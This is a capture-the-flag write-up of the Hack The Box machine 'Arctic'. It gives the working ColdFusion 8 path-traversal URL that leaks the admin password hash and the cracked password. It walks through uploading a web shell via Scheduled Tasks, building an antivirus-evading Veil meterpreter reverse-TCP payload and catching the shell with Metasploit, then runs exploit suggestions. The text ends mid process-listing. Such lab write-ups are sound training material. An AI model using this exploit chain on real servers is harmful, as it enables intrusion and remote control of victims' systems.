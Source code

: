 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule](https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG)
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.*.*</font>
<br>&nbsp;[i] LHOST => 10.10.*.*
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.*.*  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
<br>amd make sure to save the file at (C:\ColdFusion8\wwwroot\CFIDE\arctic.bat)
<br>Then run the button **(Run Shedule Task)** under **(Actions)** to upload the file to the server.
![Start-shedule-task](https://teckk2.github.io/assets/images/Arctic/14-Arctic.PNG)
<br>Before we proceed ahead check if the payload file has been uploaded successfully or not?
![arctic.bat](https://teckk2.github.io/assets/images/Arctic/15-Arctic.PNG)
<br>Now set up the listner and execute the file from the web
![arctic.bat-2](https://teckk2.github.io/assets/images/Arctic/16-Arctic.PNG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.**.*:4455 -> 10.10.10.11:65155) at 2017-12-30 02:24:25 -0500</p>

<p>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x86/windows
<br>meterpreter > getuid
<br>Server username: ARCTIC\tolis
<br>meterpreter > run post/multi/recon/local_exploit_suggester</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.11 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.11 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br>meterpreter > </p>
</div>
</font>
<br>There are few exploits suggested by **MSF** which we can use to gain Admin/System Levle access, but before we start, weneed to migrate our meterpreter to x64/windows meterpreter session because the Architectur is X64 and our current session is X86/windows.
<br>There are two ways to migrate either you create another payload with x64 sepecified then upload and execute it and get meterpreter or you can migrate to a X64 session which already running on the system.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

 <p>PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
 <br>---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
 <br>0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                      
 <br>4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                
 <br>236&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                              
 <br>272&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>324&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>336&nbsp;&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>368&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;wininit.exe                                           
 <br>388&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>440&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;winlogon.exe                                          
 <br>484&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;services.exe                                          
 <br>492&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsass.exe                                             
 <br>500&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsm.exe                                               
 <br>600&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>672&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>748&nbsp;&nbsp;&nbsp;440&nbsp;&nbsp;&nbsp;LogonUI.exe                                           
 <br>756&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>796&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>844&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>892&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>932&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>944&nbsp;&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>952&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;spoolsv.exe                                           
 <br>1004&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1036&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;CF8DotNetsvc.exe                                      
 <br>1080&nbsp;&nbsp;1036&nbsp;&nbsp;JNBDotNetSide.exe                                     
 <br>1088&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1124&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;dllhost.exe                                           
 <br>1140&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;jrunsvc.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrunsvc.exe
 <br>1168&nbsp;&nbsp;1140&nbsp;&nbsp;jrun.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrun.exe
 <br>1176&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1184&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swagent.exe                                           
 <br>1220&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swstrtr.exe                                           
 <br>1228&nbsp;&nbsp;1220&nbsp;&nbsp;swsoc.exe                                             
 <br>1236&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1240&nbsp;&nbsp;600&nbsp;&nbsp;&nbsp;WmiPrvSE.exe                                          
 <br>1304&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;k2admin.exe                                           
 <br>1364&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1436&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>1480&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;VGAuthService.exe                                     
 <br>1736&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;vmtoolsd.exe                                          
 <br>1748&nbsp;&nbsp;3180&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>1760&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;ManagementAgentHost.exe                               
 <br>2052&nbsp;&nbsp;1304&nbsp;&nbsp;k2server.exe                                          
 <br>2060&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2128&nbsp;&nbsp;1304&nbsp;&nbsp;k2index.exe                                           
 <br>2144&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2320&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>2892&nbsp;&nbsp;796&nbsp;&nbsp;&nbsp;taskeng.exe                                           
